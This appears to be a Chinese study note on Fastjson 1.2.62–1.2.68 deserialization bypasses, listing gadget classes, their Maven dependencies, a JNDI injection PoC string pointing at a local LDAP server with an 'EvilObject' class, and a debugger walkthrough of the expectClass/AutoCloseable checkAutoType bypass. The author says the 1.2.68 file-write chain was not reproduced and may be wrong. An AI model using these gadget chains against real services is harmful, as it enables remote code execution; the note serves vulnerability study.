

## 1.前言

1.必读

https://johnfrod.top/%e5%ae%89%e5%85%a8/704/

---

## 后续版本为什么能bypass

很大原因是前面【3 Fastjson 1.2.24之后的绕过.md】中的说到的 内置黑白名单：[Fastjson-Blacklist](https://github.com/LeadroyaL/fastjson-blacklist)，只要对黑白名单进行相应的绕过即可。

---

## 先起环境

【2 Fastjson 1.2.24/JdbcRowSetImpl/EvilObject.class】 放在tomcat服务器上，EvilObject.class用于弹计算器

然后用IDEA运行【2 Fastjson 1.2.24/JdbcRowSetImpl/JNDIRmiServer.java**或**JNDIRmiServer.java】

---

## 1.2.62 反序列化漏洞(JNDI)

- 需要开启AutoType；
- Fastjson <= 1.2.62；
- JNDI注入利用所受的JDK版本限制；
- 目标服务端需要存在xbean-reflect包；xbean-reflect 包的版本不限

**pom.xml**

```xml
<dependencies>
        <dependency>
            <groupId>com.unboundid</groupId>
            <artifactId>unboundid-ldapsdk</artifactId>
            <version>4.0.9</version>
        </dependency>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.62</version>
        </dependency>
        <dependency>
            <groupId>org.apache.xbean</groupId>
            <artifactId>xbean-reflect</artifactId>
            <version>4.18</version>
        </dependency>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>
```

`org.apache.xbean.propertyeditor.JndiConverter` 类的 `toObjectImpl()` 函数存在 JNDI 注入漏洞，可由其构造函数处触发利用。

**前面【1 基础.md】中说过，Fastjson反序列化时会自动调用构造函数和满足特定条件的setter，getter。**

`org.apache.xbean.propertyeditor.JndiConverter` 类的构造函数中使用了 super()，因此会调用`JndiConverter` 类的父类 `AbstractConverter`。

**利用链：**

父类 `AbstractConverter`的 `setAsText`方法符合Fastjson 自动调用的setter类型:

```java
AbstractConverter.setAsText
	AbstractConverter.toObject
    	JndiConverter.toObjectImpl
```

然而，我并没有找到 AsText 的值是如何定义的，文章也没有说，但是却有对应的getter，setter。我很感到奇怪，于是对 `AbstractConverter.setAsText`进行了调试，发现逻辑是：

先获取 poc 中各个属性：

```java
String poc = "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\"," +
        "\"AsText\":\"ldap://127.0.0.1:1099/EvilObject\"}";
```

这里总共有两个属性，分别是 `1.@type` ，`2.AsText`

然后后续调用了 `setValue`,`setValue`使用了反射的技术：
```java
com/alibaba/fastjson/parser/deserializer/DefaultFieldDeserializer.java 123行: setValue(object, value);
```

我们无需关注 `setValue` 的内在实现（使用了反射的技术），只要知道是 setValue 调用了 `AbstractConverter.setAsText`。

【详情代码查看：1.2.62.java】

---

## 1.2.66 反序列化漏洞(JNDI)

- 开启AutoType；
- Fastjson <= 1.2.66；
- JNDI注入利用所受的JDK版本限制；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core包；
- br.com.anteros.dbcp.AnterosDBCPConfig 类需要 Anteros-Core和 Anteros-DBCP 包；
- com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类需要ibatis-sqlmap和jta包


**都是JNDI注入：**

org.apache.shiro.realm.jndi.JndiRealmFactory类PoC：

```xml
<!-- https://mvnrepository.com/artifact/org.apache.shiro/shiro-core -->
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-core</artifactId>
    <version>1.11.0</version>
</dependency>
```

br.com.anteros.dbcp.AnterosDBCPConfig类PoC：

```xml
<!-- https://mvnrepository.com/artifact/br.com.anteros/Anteros-Core -->
<dependency>
    <groupId>br.com.anteros</groupId>
    <artifactId>Anteros-Core</artifactId>
    <version>1.3.6</version>
</dependency>
<!-- https://mvnrepository.com/artifact/br.com.anteros/Anteros-DBCP -->
<dependency>
    <groupId>br.com.anteros</groupId>
    <artifactId>Anteros-DBCP</artifactId>
    <version>1.0.1</version>
</dependency>
```

com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类PoC：

```xml
<!-- https://mvnrepository.com/artifact/org.apache.ibatis/ibatis-sqlmap -->
<dependency>
    <groupId>org.apache.ibatis</groupId>
    <artifactId>ibatis-sqlmap</artifactId>
    <version>3.0-beta-10</version>
</dependency>
<!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
<dependency>
    <groupId>javax.transaction</groupId>
    <artifactId>jta</artifactId>
    <version>1.1</version>
</dependency>
```

【详情代码查看：1.2.66.java】

---

## 1.2.67反序列化漏洞(JNDI)

- 开启AutoType；
- Fastjson <= 1.2.67；
- JNDI注入利用所受的JDK版本限制；
- org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类需要ignite-core、ignite-jta和jta依赖；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core和slf4j-api依赖；

org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类:

```xml
<dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
<!-- https://mvnrepository.com/artifact/org.apache.ignite/ignite-jta -->
<dependency>
    <groupId>org.apache.ignite</groupId>
    <artifactId>ignite-jta</artifactId>
    <version>2.14.0</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.ignite/ignite-core -->
<dependency>
    <groupId>org.apache.ignite</groupId>
    <artifactId>ignite-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

org.apache.shiro.jndi.JndiObjectFactory类:

```xml
<dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-core</artifactId>
            <version>1.11.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.slf4j/slf4j-api -->
        <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-slf4j2-impl -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-slf4j2-impl</artifactId>
            <version>2.19.0</version>
            <scope>test</scope>
        </dependency>
```

**依旧是JNDI注入，只不过bypass了黑名单**

【详情代码查看：1.2.67.java】

---

## 1.2.68反序列化漏洞(expectClass绕过checkAutoType)

- Fastjson <= 1.2.68；
- 利用类必须是expectClass类的子类或实现类，并且不在黑名单中；

**前言：**

1.【checkAutoType.java】,讲述了checkAutoType是如何进行防御的。

2.环境搭建：

(将Exp和VulAutoCloseable.java放在执行目录下)



**攻击步骤为：**

1. 先传入某个类，其加载成功后将作为expectClass参数传入`checkAutoType()`函数；
2. 查找expectClass类的子类或实现类，如果存在这样一个子类或实现类的**构造方法或setter**方法中存在危险操作则可以被攻击利用；

### 关键流程分析：

**第一次进入**`ParserConfig.checkAutoType()`：

```java
DefaultJSONParser.parseObject

	ParserConfig.checkAutoType()
```
**ParserConfig.checkAutoType() 1340行：**

```java
// clazz不为null,expectClass != null,不为expectClass 类的继承类且不是 HashMap 类型。抛出异常
if (clazz != null) {
    if (expectClass != null
        && clazz != java.util.HashMap.class
        && !expectClass.isAssignableFrom(clazz)) {
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }
	// 执行
     return clazz;
        }
```

---

**反序列化发生的位置：**

`return clazz; ` 后,来到了`DefaultJSONParser.parseObject`：

```java
// 获取解析器
ObjectDeserializer deserializer = config.getDeserializer(clazz);
Class deserClass = deserializer.getClass();
// 判断deserClass是否为JavaBeanDeserializer的继承类,
// 是否是JavaBeanDeserializer.class,ThrowableDeserializer.class
// 整个IF都不执行
if (JavaBeanDeserializer.class.isAssignableFrom(deserClass)
                            && deserClass != JavaBeanDeserializer.class
                            && deserClass != ThrowableDeserializer.class) {
                        this.setResolveStatus(NONE);
                    } else if (deserializer instanceof MapDeserializer) {
                        this.setResolveStatus(NONE);
                    }
// 反序列化，即来到下一步：JavaBeanDeserializer.deserialze
Object obj = deserializer.deserialze(this, clazz, fieldName);
return obj;
```

`JavaBeanDeserializer.deserialze` 799：

```java
// 几个关键变量：
// type.name = java.lang.AutoCloseable
// typeName = src.main.java.VulAutoCloseable
// expectClass = java.lang.AutoCloseable

ObjectDeserializer deserializer = getSeeAlso(config, this.beanInfo, typeName);
Class<?> userType = null;
// 进入IF
  if (deserializer == null) {
       Class<?> expectClass = TypeUtils.getClass(type);
      // 第二次进入ParserConfig.checkAutoType
       userType = config.checkAutoType(typeName, expectClass, lexer.getFeatures());
       deserializer = parser.getConfig().getDeserializer(userType);
                            }
```


**第二次进入**`ParserConfig.checkAutoType()`

```java
// 几个关键变量：
// type.name = java.lang.AutoCloseable
// typeName = src.main.java.VulAutoCloseable
// expectClass = java.lang.AutoCloseable
```

1.黑白名单检测，无误。

2.AutoType关闭且jsonType为false,所以 **不开启cache**：

```java
boolean cacheClass = autoTypeSupport || jsonType; 1401行
```

3.（**1402行**）载入 `VulAutoCloseable`,并赋值给 `clazz`

```java
clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass); 1402行
```

4.达成利用

```java
// 进入if
if (expectClass != null) {
          // expectClass绕过checkAutoType的核心： clazz是expectClass的子类。则return clazz;
          // return clazz;后是一系列的反序列化操作,达成执行我们的恶意类
                if (expectClass.isAssignableFrom(clazz)) {
                    TypeUtils.addMapping(typeName, clazz);
                    // 执行
                    return clazz;
                } else {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }
```

---

### 为什么不能在第一次进入 `ParserConfig.checkAutoType()`时就直接利用，而要分两次进入？

因为执行完**[ParserConfig.checkAutoType() 1340行]**后无非就两种结果：1.抛出异常  2.return clazz; 

如果是 `return clazz`，当第二次（**[`JavaBeanDeserializer.deserialze` 799]**）进入 `ParserConfig.checkAutoType()`，并执行到 **1340行**，此时的 `clazz = null` ,直接跳过了这个IF条件**（[ParserConfig.checkAutoType() 1340行]）**，接着不断的走，执行完 **ParserConfig.checkAutoType() 1402行 **后，`clazz = VulAutoCloseable`,并返回了`clazz`, `clazz`会被反序列化，也就达成了我们的目的。


**如果还是不懂，自行下断点在前面提到的xx行进行调试，附上变量值：**

第一次：

```java
1.expectClass = null
2.expectClassFlag = false;
3.clazz = java.lang.AutoCloseable
```

第二次：

```java
1.expectClass = java.lang.AutoCloseable
2.expectClassFlag = true;
3.clazz = null (执行完1402行后) => 
  clazz = VulAutoCloseable
```

---

前面提到过，VulAutoCloseable.java放在执行目录下（比作放在Fastjson服务端上），然而实际上不可能有这么简单的可直接利用的类给你，所以需要考虑用何种方法将demo代码真正利用在开发环境中。

【详情代码查看：1.2.68-demo.java】

### 实际利用：

前言：

安装依赖：

```xml
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjtools</artifactId>
    <version>1.9.5</version>
</dependency>
<dependency>
    <groupId>com.esotericsoftware</groupId>
    <artifactId>kryo</artifactId>
    <version>4.0.0</version>
</dependency>
<dependency>
    <groupId>com.sleepycat</groupId>
    <artifactId>je</artifactId>
    <version>5.0.73</version>
</dependency>
```


我看完博客后理解不了，所以整理一下方便理解：

【警告：由于Maven解析依赖一直持续中，导致我无法成功复现这个漏洞，所以这个利用链是看文章总结的，并未亲手调试！所以可能有错误，想求真就自行调试】

利用链：

```java
// 一。需要用到两个条件：
1.复制文件:
    org.eclipse.core.internal.localstore.SafeFileOutputStream
//  SafeFileOutputStream的构造函数：如果targetPath文件不存在且tempPath文件存在，就会把tempPath复制到targetPath中

2.写入文件:
com.esotericsoftware.kryo.io.Output
    
// 二。实际利用：    
// 第一步    
ObjectOutputStream.BlockDataOutputStream#BlockDataOutputStream()

// 第二步  
// 但是Fastjson优先获取的是ObjectOutputStream类的无参构造函数，因此只能找ObjectOutputStream的继承类来触发了,这里替换为com.sleepycat.bind.serial.SerialOutput
ObjectOutputStream.ObjectOutputStream(OutputStream out) => 
com.sleepycat.bind.serial.SerialOutput#SerialOutput    
    ObjectOutputStream.BlockDataOutputStream.setBlockDataMode()
        ObjectOutputStream.drain()
         write相关函数(这里用到的是out.write())
            require()
                Output.flush()    
                    Output.setBuffer , Output.setOutputStream(new SafeFileOutputStream)   
```

【详情代码查看：1.2.68.java】

**如何防御的：**

老样子，扔黑名单去

**1.2.68及之后版本新增内容：SafeMode：**

【checkAutoType.java】有详解，简而言之开启了SafeMode,没Fastjson漏洞。

---

## 另外一些版本的Gadget

[自行点击查阅](https://drun1baby.github.io/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#toc-heading-24)，就不复制粘贴了。

